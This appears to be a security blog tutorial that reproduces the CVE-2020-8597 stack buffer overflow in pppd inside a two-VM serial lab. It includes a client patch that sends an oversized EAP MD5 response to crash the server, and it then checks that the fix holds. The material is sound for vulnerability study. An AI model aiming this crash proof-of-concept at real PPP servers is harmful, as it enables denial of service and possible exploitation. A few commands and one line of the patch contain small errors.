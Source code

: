 ```yaml
---
layout: posts
title:  "CVE-2020-8597 - Buffer Overflow in pppd"
date:   2020-03-07 00:00:00 -0600
categories: cve buffer-overflow pppd proof-of-concept
author: Nicholas Starke
---
```


In this short tutorial we will go over how to reproduce the crash from CVE-2020-8597.  This is a stack-based buffer overflow in the `pppd` binary.

We will use our own `pppd` binary compiled from source, using the latest version: `2.4.8`.

To accomplish this goal, we will need two Virtual Machines connected by a virtual serial port.  I typically use VirtualBox since it is open source, but the same sort of configuration should work on other hypervisors.

I spun up two VMs: 

* `pppd-server`
* `pppd-client`

The serial configuration settings for `pppd-server` look like this:

![Server Serial Configuration](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0001-server-serial-config.png "Server Serial Configuration")

The serial configuration settings for `pppd-client` look like this:

![Client Serial Configuration](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0002-client-serial-config.png "Client Serial Configuration")

After configuring the serial settings, spin up and install your choice of Linux Distribution.  I chose `Ubuntu 19.10`, but any linux distro should work.

Make sure the `pppd-server` VM is started **before** the `pppd-client` VM.

Now we need to test the connectivity of the serial connection:

![Testing Serial Connection](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0003-testing-serial-connection.png "Testing Serial Connection")

When installation of the base operating system is completed and testing is successful, we will need a few packages to work with pppd:

```bash
# apt install build-essential gdb libssl-dev
```

Then we proceed to clone the `ppp` repository:

```bash
$ git clone https://github.com/paulusmack/ppp.git ~/ppp
```

Now on the server, we build and install `ppp`:

```bash
$ git checkout ppp-2.4.8
$ cd ~/ppp
$ ./configure
$ make
# make install
```

We now have `pppd` installed for the server.  Next repeat the instructions on `pppd-client`.

At this point we hae a version of `pppd` on both systems.  We need to then test the connection.

First, on the server, run the following command:

```bash
# pppd /dev/ttyS0 9600 noauth local lock defaultroute debug nodetach 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8
```

Next, on the client, run the following command:

```bash
# pppd noauth local lock defaultroute debug nodetach /dev/ttyS0 9600
```

Now we should see the connection open up:

![Initial Connection](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0005-initial-connection.png "Initial Connection")

Next we need to implement `EAP MD5-Challenge`.  We can do so by adjusting the server command and adding a file on the server filesystem.

The file we need to add is `/etc/ppp/chap-secrets` and should look like this:

```
admin   *       password        *
```

Where:

* `admin` is the username
* The first * is the server name
* `password` is the connection password
* The second * is the IP to accept connections from

Now we adjust the server command to:

```bash
# pppd /dev/ttyS0 9600 auth local lock defaultroute debug nodetach 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8 require-eap
```

The last thing we need to do is make some changes to the `pppd-client` pppd binary.  On `pppd-client`, clean up the ppp project in `~/ppp`:

```bash
$ make clean
```

Then apply the following patch:

```
diff --git a/pppd/eap.c b/pppd/eap.c
index 082e953..0754597 100644
--- a/pppd/eap.c
+++ b/pppd/eap.c
@@ -75,8 +75,7 @@
 #ifndef SHA_DIGESTSIZE
 #define        SHA_DIGESTSIZE 20
 #endif
-
-
+#define PAYLOAD_SIZE 1024
 eap_state eap_states[NUM_PPP];         /* EAP state; one for each unit */
 #ifdef USE_SRP
 static char *pn_secret = NULL;         /* Pseudonym generating secret */
@@ -1392,8 +1391,8 @@ int len;
 #endif /* USE_SRP */
                eap_send_response(esp, id, typenum, esp->es_client.ea_name,
                    esp->es_client.ea_namelen);
-               break;
 
+               break;
        case EAPT_NOTIFICATION:
                if (len > 0)
                        info("EAP: Notification \"%.*q\"", len, inp);
@@ -1457,8 +1456,12 @@ int len;
                BZERO(secret, sizeof (secret));
                MD5_Update(&mdContext, inp, vallen);
                MD5_Final(hash, &mdContext);
-               eap_chap_response(esp, id, hash, esp->es_client.ea_name,
-                   esp->es_client.ea_namelen);
+               char payload[PAYLOAD_SIZE];
+               memset(payload, 'A', PAYLOAD_SIZE - 1);
+               payload[PAYLOAD_SIZE] = '\0';
+               eap_chap_response(esp, id, hash, payload, PAYLOAD_SIZE);
+               //eap_chap_response(esp, id, hash, esp->es_client.ea_name,
+                //   esp->es_client.ea_namelen);
                break;
 
 #ifdef USE_SRP
```

You can apply this patch by saving it as a file like this:

```bash
$ git apply client-payload.patch
```

Where `client-payload.patch` is the file name where we saved the aforementioned patch.

I chose to use the approach of modifying he `pppd` binary to avoid having to script out the entire `LCP` handshake process that begins link negotation on `ppp`.  While it should be possible to craft your own client using `scapy` and `pyserial`, it was definitely easier to just modify the existing `pppd` binary to do what we want.

Now recompile the project:

```bash
$ ./configure
$ make
# make install
```

Now we adjust the client command to be:

```bash
# pppd auth local lock defaultroute debug nodetach /dev/ttyS0 960
```

Then we run the server command first, and the following client command:

```bash
# pppd noauth local lock defaultroute debug nodetach /dev/ttyS0 9600 user notadmin password notpassword
```

You should see a crash now on the server:

![Crash](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0006-crash.png "Crash")

Now, we want to verify the fix, so back on the server we run:

```bash
$ make clean
$ git checkout master
$ ./configure
$ make
# make install
```

Then repeat the last server+client commands!  You should not see a crash:

![No Crash](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0007-no-crash.png "No crash")

Sources:

* [https://github.com/paulusmack/ppp/commit/8d7970b8f3db727fe798b65f3377fe6787575426](https://github.com/paulusmack/ppp/commit/8d7970b8f3db727fe798b65f3377fe6787575426)
* [https://www.virtualbox.org/wiki/PPP_Tunnel](https://www.virtualbox.org/wiki/PPP_Tunnel)
